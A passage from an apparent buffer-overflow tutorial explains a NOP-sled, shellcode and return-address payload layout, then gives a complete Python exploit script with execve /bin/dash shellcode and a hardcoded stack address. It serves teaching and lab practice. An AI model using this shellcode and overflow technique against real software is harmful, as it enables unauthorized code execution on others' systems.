 Here we can see that ``rbp`` got overwritten by 0x4242424242424242

* Lets write the final exploit
    * Here in final exploit, we will fill the buffer with shellcode and jump to that address by overwritting return address.<br>

    * I got a shellcode which is less than 32 Byte for /bin/dash from source: <br>http://shell-storm.org/shellcode/files/shellcode-806.php<br>
* Fill the buffer in following way<br>
+-------------+-----------------+---------------------+<br>
|&nbsp;&nbsp;&nbsp;&nbsp;Nop Sled&nbsp;&nbsp;&nbsp;|&nbsp;&nbsp;&nbsp;&nbsp;ShellCode&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;&nbsp;&nbsp;&nbsp;Return Address&nbsp;&nbsp;&nbsp;&nbsp;|<br>
+-------------+-----------------+---------------------+<br>

* Return address should be in such a way that it should point to start of the buffer.<br>

```bash

         |                       |
         |                       |
         |                       |
    +--->+-----------------------+
    |    |                       |
    |    |       Nop Sleds       |
    |    +-----------------------+
    |    |       Shell Code      |
    |    |                       |
    |    +-----------------------+
    |    |                       |
    |    |     Return Address    |<-------- rbp
    |    +-----------------------+
    |    |           |           |
    |    |           |           |
    +----|-----------+           |
         |                       |
         |                       |
         |                       |

```

```python
#!/usr/bin/python

shellcode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" # shell code for /bin/dash
# source: http://shell-storm.org/shellcode/files/shellcode-806.php
nops="\x90"*(32-len(shellcode)) # nop sled
ret_add="\xa0\xde\xff\xff\xff\x7f" #address of buffer from where input is filled in buffer
payload=nops+shellcode+ret_add
print payload

```

As our final exploit is ready, lets rerun the program by feeding the output of the above python script in our code.
